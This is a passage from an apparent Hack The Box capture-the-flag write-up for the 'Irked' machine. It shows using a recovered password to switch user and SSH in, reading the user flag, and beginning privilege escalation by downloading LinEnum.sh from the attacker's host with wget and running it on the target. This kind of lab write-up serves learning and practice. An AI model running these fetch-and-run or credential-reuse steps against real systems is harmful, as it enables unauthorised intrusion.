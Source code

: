 That password works as djmardov’s password with `su`:

```

ircd@irked:/home/djmardov/Documents$ su djmardov
Password: 
djmardov@irked:~/Documents$

```

I can also ssh in:

```

root@kali# ssh djmardov@10.10.10.117
djmardov@10.10.10.117's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr  4 07:11:52 2019 from 10.10.14.14
djmardov@irked:~$

```

Now I can get `user.txt`:

```

djmardov@irked:~/Documents$ cat user.txt 
4a66a78b...

```

## Privesc: djmardov –> root

### Enumeration

I’ll run [LinEnum.sh](https://github.com/rebootuser/LinEnum) to help survey the box. I’ve already got it cloned to my box, so I’ll go into the directory and run the python webserver, `python3 -m http.server 80`. Then I’ll get it on Irked and run it.

```

djmardov@irked:/dev/shm$ wget 10.10.14.14/LinEnum.sh
--2019-04-04 09:01:24--  http://10.10.14.14/LinEnum.sh
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45650 (45K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh                                             100%[==============================================================================================================================>]  44.58K  --.-KB/s   in 0.04s  

2019-04-04 09:01:25 (1.10 MB/s) - ‘LinEnum.sh’ saved [45650/45650]

djmardov@irked:/dev/shm$ chmod +x LinEnum.sh
djmardov@irked:/dev/shm$ ./LinEnum.sh -t
                                                       
#########################################################
# Local Linux Enumeration & Privilege Escalation Script #
#########################################################
# www.rebootuser.com
```